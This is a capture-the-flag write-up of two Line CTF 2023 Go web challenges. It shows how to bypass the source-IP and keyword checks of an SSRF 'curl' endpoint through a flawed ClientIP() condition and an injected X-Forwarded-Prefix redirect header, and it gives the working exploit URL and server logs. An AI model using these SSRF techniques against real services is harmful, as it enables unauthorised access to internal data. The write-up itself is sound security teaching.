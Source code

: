 ```yaml
---
layout: post
title: "Line CTF 2023 Write Up"
date: 2023-03-26 09:00:53
description: This article is about write-up for the Line ctf 2023. there is only two web challenges, both of which contain an SSRF bug
logo: code
imgurl: https://rls1004.github.io/img/line_ctf.png
---
```


- [(Web) Baby Simple Gocurl ](#web-baby-simple-gocurl)
- [(Web) Adult Simple Gocurl](#web-adult-simple-gocurl)

These two challenges require reading flag in the `/flag/` path via SSRF.

---
# (Web) Baby Simple Gocurl

```javascript
n.startsWith("https://") || n.startsWith("http://") ? window.open(n, "_self") : r.router.set(a.redirect_link ? n : "/portal")
```

```Go
	r.GET("/flag/", func(c *gin.Context) {
		reqIP := strings.Split(c.Request.RemoteAddr, ":")[0]

		log.Println("[+] IP : " + reqIP)
		if reqIP == "127.0.0.1" {
			c.JSON(http.StatusOK, gin.H{
				"message": flag,
			})
			return
		}

		c.JSON(http.StatusBadRequest, gin.H{
			"message": "You are a Guest, This is only for Host",
		})
	})
```
first, to read the `Flag`, a request must be made using the `127.0.0.1` IP.

```Go
	r.GET("/curl/", func(c *gin.Context) {
		client := &http.Client{
			CheckRedirect: func(req *http.Request, via []*http.Request) error {
				return redirectChecker(req, via)
			},
		}

		reqUrl := strings.ToLower(c.Query("url"))
		reqHeaderKey := c.Query("header_key")
		reqHeaderValue := c.Query("header_value")
		reqIP := strings.Split(c.Request.RemoteAddr, ":")[0]
		fmt.Println("[+] " + reqUrl + ", " + reqIP + ", " + reqHeaderKey + ", " + reqHeaderValue)

		if c.ClientIP() != "127.0.0.1" && (strings.Contains(reqUrl, "flag") || strings.Contains(reqUrl, "curl") || strings.Contains(reqUrl, "%")) {
			c.JSON(http.StatusBadRequest, gin.H{"message": "Something wrong"})
			return
		}

		req, err := http.NewRequest("GET", reqUrl, nil)
		if err != nil {
			c.JSON(http.StatusBadRequest, gin.H{"message": "Something wrong"})
			return
		}

		if reqHeaderKey != "" || reqHeaderValue != "" {
			req.Header.Set(reqHeaderKey, reqHeaderValue)
		}

		resp, err := client.Do(req)
		if err != nil {
			c.JSON(http.StatusBadRequest, gin.H{"message": "Something wrong"})
			return
		}

		defer resp.Body.Close()

		bodyText, err := ioutil.ReadAll(resp.Body)
		if err != nil {
			c.JSON(http.StatusBadRequest, gin.H{"message": "Something wrong"})
			return
		}
		statusText := resp.Status

		c.JSON(http.StatusOK, gin.H{
			"body":   string(bodyText),
			"status": statusText,
		})
	})
```
in this challenge, we can use the http module to send a request to the desired web service and get the response value.

Get the parameter values of `url`, `header_key`, and `header_value` from the parameters received from the user.

```Go
		if c.ClientIP() != "127.0.0.1" && (strings.Contains(reqUrl, "flag") || strings.Contains(reqUrl, "curl") || strings.Contains(reqUrl, "%")) {
			c.JSON(http.StatusBadRequest, gin.H{"message": "Something wrong"})
			return
		}
```
but this challenge has a validation process as above. The IP of the user we currently delivered must be `127.0.0.1`, and the characters `flag`, `curl`, `%` must not be included in the url value we sent.

```Go
if c.ClientIP() != "127.0.0.1" && (strings.Contains(reqUrl, "flag") || strings.Contains(reqUrl, "curl") || strings.Contains(reqUrl, "%"))
```
oops but the conditional statement is a bit weird. we can bypass this by making it operate like false && true.

```Go
// https://github.com/gin-gonic/gin/blob/457fabd7e14f36ca1b5f302f7247efeb4690e49c/context.go#L768

// ClientIP implements one best effort algorithm to return the real client IP.
// It calls c.RemoteIP() under the hood, to check if the remote IP is a trusted proxy or not.
// If it is it will then try to parse the headers defined in Engine.RemoteIPHeaders (defaulting to [X-Forwarded-For, X-Real-Ip]).
// If the headers are not syntactically valid OR the remote IP does not correspond to a trusted proxy,
// the remote IP (coming from Request.RemoteAddr) is returned.
```
There is a comment as above in the part where the ClientIP() function is defined.


![](https://cdn.discordapp.com/attachments/1046394803270713456/1089401834793353317/2023-03-26_13.13.50.png)





---
# (Web) Adult Simple Gocurl

```Go
		if strings.Contains(reqUrl, "flag") || strings.Contains(reqUrl, "curl") || strings.Contains(reqUrl, "%") {
			c.JSON(http.StatusBadRequest, gin.H{"message": "Something wrong"})
			return
		}
```
all the code in this challenge is the same as baby. but the difference is the conditional statement above. we can't bypass the conditional now

```Go
		if reqHeaderKey != "" || reqHeaderValue != "" {
			req.Header.Set(reqHeaderKey, reqHeaderValue)
		}
```
But we can add any HTTP headers we want using header append logic

```
=> https://issues.redhat.com/browse/UNDERTOW-990?workflowName=GIT+Pull+Request+workflow+&stepId=5

For request which is redirected to index.html:
$ curl -I -X GET  --header "X-Forwarded-Prefix: /test-service" "http://localhost:8624/docs"

Current result is:
HTTP/1.1 302 Found
Location: http://localhost:8624/docs/index.html

but should be:
HTTP/1.1 302 Found
Location: http://localhost:8624/test-service/docs/index.html
```
Let's see the above before the exploit. we can see that it sets the `X-Forwarded-Prefix: /test-service` header when requesting /docs. as a result, the location to be redirected normally is `/docs/index.html`, but it is redirected to `/test-service/docs/index.html`. 

in other words, if we send a request to a place that returns a 302 response and send the `X-Forwarded-Prefix` header together, we can send the request to the desired path.

```plaintext
[GIN-debug] redirecting request 301: / --> /
[GIN] 2023/03/26 - 13:27:32 | 200 |    1.877625ms |       127.0.0.1 | GET      "/"
[GIN] 2023/03/26 - 13:27:32 | 200 |    3.854083ms |       127.0.0.1 | GET      "/curl/?url=http://127.0.0.1:8080//"
```
if we send a request to `http://127.0.0.1:8080//`, we can see a 302 redirect back to the normalized path after normalizing the path. we figured out how to send a request to a place with a redirect response.

```plaintext
[GIN-debug] redirecting request 301: /flag// --> /flag//
2023/03/26 13:29:25 [+] IP : 127.0.0.1
[GIN] 2023/03/26 - 13:29:25 | 200 |      41.625µs |       127.0.0.1 | GET      "/flag/"
[GIN] 2023/03/26 - 13:29:25 | 200 |     980.917µs |       127.0.0.1 | GET      "/curl/?url=http://127.0.0.1:8080//&header_key=X-Forwarded-Prefix&header_value=/flag"
```
if we send a request like `http://localhost:8080/curl/?url=http://127.0.0.1:8080//&header_key=X-Forwarded-Prefix&header_value=/flag`, the redirect is executed. We can see that during this process we normalize the path using the `X-Forwarded-Prefix` header and send the request to /flag/.
